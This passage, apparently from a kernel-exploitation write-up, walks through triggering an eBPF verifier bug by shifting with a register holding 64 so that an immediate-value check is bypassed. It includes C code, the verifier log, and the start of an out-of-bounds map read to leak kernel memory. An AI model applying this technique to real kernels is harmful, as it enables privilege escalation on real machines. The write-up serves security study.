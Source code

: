 ```c
    }

    attach_socket(prog_fd);
}

void run_bpf_prog(struct bpf_insn *insns, uint insncnt){
    int val = 0;

    setup_bpf_prog(insns, insncnt);
    write(socks[1], &val, sizeof(val));
}

int main(){
    struct bpf_insn insns[] = {
        BPF_MOV64_IMM(BPF_REG_0, 0x1337),
        BPF_ALU64_IMM(BPF_RSH, BPF_REG_0, 64),
        BPF_EXIT_INSN()
    };

    run_bpf_prog(insns, sizeof(insns)/sizeof(insns[0]));
}
```
I set a breakpoint at `*sk_filter_trim_cap + 140` to see the code in action.
The code compilation failed with the following logger buffer output
```
func#0 @0
0: R1=ctx(id=0,off=0,imm=0) R10=fp0
0: (b7) r0 = 4919
1: R0_w=invP4919 R1=ctx(id=0,off=0,imm=0) R10=fp0
1: (77) r0 >>= 64
invalid shift 64
processed 2 insns (limit 1000000) max_states_per_insn 0 total_states 0 peak_states 0 mark_read 0
```
This error is because of [this line](https://elixir.bootlin.com/linux/v5.11/source/kernel/bpf/verifier.c#L6737).
The verifier actually already has a check for invalid shifts. But this check is only for immediate values.<br/>
If we put `64` in another register and use that for shifting, we trigger the vuln.
```c
BPF_MOV64_IMM(BPF_REG_0, 0x1337),
BPF_MOV64_IMM(BPF_REG_1, 64),
BPF_ALU64_REG(BPF_RSH, BPF_REG_0, BPF_REG_1),
BPF_EXIT_INSN()
```
And voila! we triggered the vuln.

## Getting a leak
Now that we have a value that the verifier thinks is `0`, we can use it to perform pointer arithmetic to access out-of-bounds memory. Accessing oob memory of a map can be used to get a kernel leak. eBPF maps use the following struct:
```c
struct bpf_map {
	const struct bpf_map_ops *ops ____cacheline_aligned;
	struct bpf_map *inner_map_meta;
#ifdef CONFIG_SECURITY
	void *security;
#endif
	enum bpf_map_type map_type;
	u32 key_size;
	u32 value_size;
	u32 max_entries;
	u32 map_flags;
	int spin_lock_off; /* >=0 valid offset, <0 error */
```